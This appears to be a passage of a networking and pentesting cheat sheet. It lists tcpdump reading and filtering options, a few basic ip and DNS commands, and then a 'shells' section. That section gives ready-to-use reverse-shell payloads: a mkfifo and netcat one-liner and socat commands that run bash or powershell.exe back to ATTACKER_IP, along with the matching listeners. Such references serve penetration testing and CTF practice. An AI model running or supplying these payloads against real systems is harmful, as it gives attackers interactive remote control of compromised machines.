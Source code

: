 ```bash
tcpdump -r file.pcap -e -n arp
tcpdump -r file.pcap -q # Quick output; print brief packet information
tcpdump -r file.pcap -e # Print the link-level header (MAC)
tcpdump -r file.pcap -A # Show packet data in ASCII
tcpdump -r file.pcap -xx # Show packet data in hexadecimal format (hex)
tcpdump -r file.pcap -X # Show packet headers and data in hex and ASCII

# pcap filtering
# proto[expr:size]
# tcp[tcpflags]
man pcap-filter
# Capture TCP packets with only SYN flag set
tcpdump "tcp[tcpflags] == tcp-syn"
# Capture TCP packets with at least SYN flag set
tcpdump "tcp[tcpflags] & tcp-syn != 0"
# Capture TCP packets with at least SYN or ACK flags set
tcpdump "tcp[tcpflags] & (tcp-syn|tcp-ack) != 0"
```

---

## ip

```bash
ip a
ip -br -c a

```

---

## dns

```bash
cat /etc/resolv.conf
```

---

## shells

```bash
# Reverse Shell
# Target --> Attacker

# Attacker
nc -nvlp ATTACKER_PORT
socat TCP-L:ATTACKER_PORT -
socat TCP-L:ATTACKER_PORT FILE:`tty`,raw,echo=0 # stable full tty shell

# Target payload (nc)
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT > /tmp/f
# Linux Target (socat)
socat TCP:ATTACKER_IP:ATTACKER_PORT EXEC:"bash -li"
# Windows Target (socat)
socat TCP:ATTACKER_IP:ATTACKER_PORT EXEC:powershell.exe,pipes
# Stable shell (socat)
socat TCP:ATTACKER_IP:ATTACKER_PORT EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
